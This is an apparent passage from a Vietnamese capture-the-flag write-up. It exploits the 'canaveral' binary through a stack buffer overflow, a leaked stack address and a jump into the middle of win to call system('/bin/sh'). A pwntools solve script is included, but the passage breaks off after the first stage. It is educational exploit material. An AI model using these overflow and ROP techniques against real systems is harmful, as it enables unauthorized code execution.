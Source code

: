     ```
       ; ... các bước kiểm tra tham số RDI và RSI ...
       0x401218:    mov    -0x10(%rbp),%rax
       0x40121c:    mov    %rax,%rdi
       0x401224:    call   system@plt
    
    ```
    
    Phân tích kỹ hơn cho thấy phần cuối của hàm `win` (từ địa chỉ `0x401218`) thực hiện việc lấy giá trị từ địa chỉ `[rbp - 0x10]`, nạp vào `rdi` và gọi `system()`. Đoạn mã này không hề có bước kiểm tra nào. Đây chính là mục tiêu tấn công của chúng ta.
    
3. **Lỗ hổng rò rỉ thông tin:**
Chương trình in ra dòng `Successful launch! Here's your prize: %p` cùng với một địa chỉ. Đây chính là địa chỉ của buffer trên stack. Lỗ hổng này cho phép chúng ta biết chính xác vị trí của payload trên bộ nhớ.
4. **Xây dựng chiến lược khai thác hai giai đoạn:**
    - **Giai đoạn 1 (Trinh sát):** Gửi một payload đầu tiên để gây tràn bộ đệm. Payload này sẽ ghi đè địa chỉ trả về bằng chính địa chỉ của hàm `vuln`, khiến chương trình thực thi lại `vuln`. Mục đích duy nhất của giai đoạn này là để chương trình in ra địa chỉ của buffer trên stack và chúng ta sẽ bắt lấy nó.
    - **Giai đoạn 2 (Tấn công):** Sử dụng địa chỉ stack đã leak, chúng ta xây dựng một payload thứ hai cực kỳ chính xác:
        - Ghi đè `RBP` đã lưu bằng một địa chỉ được tính toán cẩn thận (`leaked_stack_addr + offset`).
        - Ghi đè địa chỉ trả về để nhảy vào giữa hàm `win` (tại `0x401218`).
        - Đặt địa chỉ của chuỗi `"/bin/sh"` vào đúng vị trí trên stack sao cho khi lệnh `mov -0x10(%rbp),%rax` được thực thi, nó sẽ lấy đúng địa chỉ này.
        - Thêm một gadget `ret` đơn giản vào ROP chain để giải quyết vấn đề căn chỉnh stack (stack alignment), đảm bảo `system()` không bị crash.

---

## Kịch bản giải mã (Exploit)

Kịch bản Python dưới đây thực hiện chiến lược khai thác hai giai đoạn một cách tự động.

```python
# solve.py
from pwn import *

# Cấu hình môi trường
elf = ELF("./canaveral")
context.binary = elf
context.terminal = ["tmux", "split-w", "-h"]

# Kết nối tới server
p = remote("chal.sunshinectf.games", 25603)
# p = process("./canaveral") # Để chạy local

# --- GIAI ĐOẠN 1: Leak địa chỉ stack ---

# Lấy địa chỉ của hàm vuln để thực hiện cú nhảy ngược
vuln_addr = elf.symbols["vuln"]

# Payload 1: Ghi đè địa chỉ trả về bằng chính vuln_addr
# 0x40 (buffer) + 8 (saved RBP) = 72 bytes offset
payload1 = b"A" * 0x48 + p64(vuln_addr)
p.sendline(payload1)

# Nhận output và trích xuất địa chỉ stack đã bị leak
p.recvuntil(b"Here's your prize: ")
leaked_buf_addr = int(p.recvline().strip(), 16)
log.info(f"Leaked stack buffer address: {hex(leaked_buf_addr)}")

# --- GIAI ĐOẠN 2: Tấn công ---

```